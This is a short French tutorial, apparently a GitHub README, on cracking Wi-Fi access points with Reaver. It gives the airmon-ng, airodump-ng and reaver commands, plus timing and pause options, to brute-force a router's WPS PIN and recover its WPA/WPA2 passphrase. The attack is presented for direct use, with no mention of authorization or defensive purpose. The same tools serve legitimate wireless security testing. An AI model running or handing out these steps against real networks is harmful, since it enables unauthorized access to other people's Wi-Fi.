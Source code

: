 # Reaver WPS

## Fonctionnement

On va lancer l'outil airmon-ng en mode surveillance (monitor).
On commence par afficher les cartes wifi disponible, saisissez dans un terminal:
```
airmon-ng
```

Pour lancer la surveillance sur votre interface wifi:
```
airmon-ng start wlan0
```

Après on lance airodump pour afficher les réseaux disponibles:
```
airodump-ng mon0
```

Après avoir trouvé le point d'accès à attaquer, on lance reaver-wps avec les arguments suivants:
```
reaver -i mon0 -b [BSSID de l'AP] -vv
```

Quelques options supplémentaires a reaver-wps:
```
-e [ESSID du point d'accès]
-c [Canal du point d'accès]
-t [Delai d'attente de la réception avant de renvoyer] Default 5 secondes
-d [Delai entre chaque tentatives de connexion] Default 1 seondes
-l [Delai d'attente en secondes lors d'une détection WPS]
-f Pour obliger reaver-wps a ne pas changer ne canal
-vv Mode bavard (verbose)
-x [Temps en secondes]
-r [NB Tentative]:[Temps d'arrêt] Permet de faire une pause toutes les X tentatives.
```

Normalement, reaver-wps doit automatiquement se configurer pour s'associer au point d'accès et ainsi commencer l'attaque brute force du PIN.

Une fois le code PIN trouvé, reaver-wps vous affichera la clé de connexion WPA/WPA2 PSK

### Sauvegarde

Les données lors de l'attaque d'un point d'accès wifi sont enregistré dans le répertoire:
/etc/reaver

Ce qui permet de relancer plus tard le scan du PA au point où vous étiez arrêté.
